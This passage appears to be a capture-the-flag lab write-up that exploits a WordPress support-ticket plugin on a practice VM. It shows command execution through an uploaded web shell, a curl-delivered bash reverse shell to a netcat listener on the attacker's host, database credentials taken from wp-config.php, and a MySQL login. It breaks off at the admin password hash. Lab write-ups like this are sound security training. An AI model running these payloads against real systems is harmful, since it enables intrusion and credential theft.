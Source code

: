 And there is the file I uploaded, when I use the `curl` command:
```shell
$ curl "http://www.hacknos.com/g@web/wp-content/uploads/wpsp
> 1677022274_ws.phtml?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I confirm the RCE, and the `WP Support Plus Responsive Ticket System` is vulnerable.

## Exploitation
`CVE-2021-4034`, plain text password, sudo privileges to escalate users.

Given I can access `http://192.168.2.51g@web`, and it runs a `WordPress` site, and it uses the `WP Support Plus Responsive Ticket System` plugin, and I confirm an RCE, then I can perform a reverse shell.

When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I send a reverse shell payload:
```shell
$ curl "http://www.hacknos.com/g@web/wp-content/uploads/wpsp/
> 1677022274_ws.phtml?cmd=
> bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.2.31/1234%200>%261'"
```
Then it works:

![evidence](./static/06-reverseshell.png)

And I start exploring the server. When I check the `webroot`, then I find the `MySQL` credentials in the `wp-config.php` file:
```php
...SNIPPED...
define( 'DB_NAME', 'hackNos' );
...
define( 'DB_USER', 'wp' );
...
define( 'DB_PASSWORD', 'g@web-password' );
...
```
When I try to connect to the `MySQL` database, and first I need to upgrade my shell with the following command:
```shell
$ www-data@hacknos:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
And I can use the `mysql` command:
```shell
$ www-data@hacknos:/$ mysql -u wp -p'g@web-password'
```
Then I can explore the `MySQL` databases, when I check the `wp_users` table, then I can find the `admin` password hash:
